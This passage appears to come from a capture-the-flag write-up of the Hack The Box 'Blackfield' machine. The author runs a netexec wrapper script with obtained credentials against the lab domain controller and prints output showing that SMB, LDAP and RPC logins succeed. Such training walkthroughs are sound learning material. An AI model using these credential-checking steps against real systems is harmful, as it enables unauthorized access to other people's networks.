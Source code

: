 Lets now use my script to bulk check the services to which we can login with those creds:
[ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)
```bash
./auto_netexec_bulk_creds_checker.sh blackfield.htb 'support' '#00^BlackKnight'
```

```bash
[*] Checking if winrm port 5985 is open on blackfield.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.164.18   5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.164.18   5985   DC01             [-] BLACKFIELD.local\\support:#00^BlackKnight

[*] Checking if smb port 445 is open on blackfield.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.164.18   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.164.18   445    DC01             [+] BLACKFIELD.local\\support:#00^BlackKnight 

[*] Checking if ldap port 389 is open on blackfield.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.164.18   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
LDAP        10.129.164.18   389    DC01             [+] BLACKFIELD.local\\support:#00^BlackKnight 

[*] Checking if rdp port 3389 is open on blackfield.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on blackfield.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.164.18   135    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
RPC         10.129.164.18   135    DC01             [+] BLACKFIELD.local\\support:#00^BlackKnight 

[*] Checking if nfs port 2049 is open on blackfield.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on blackfield.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on blackfield.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on blackfield.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on blackfield.htb...
[-] Skipping mssql — port 1433 is closed
```
interesting, according the the above output, with those creds, we can login to `RPC` , `SMB` and `LDAP`.
So we should continue to enumerate again, using the obtained credentials this time.
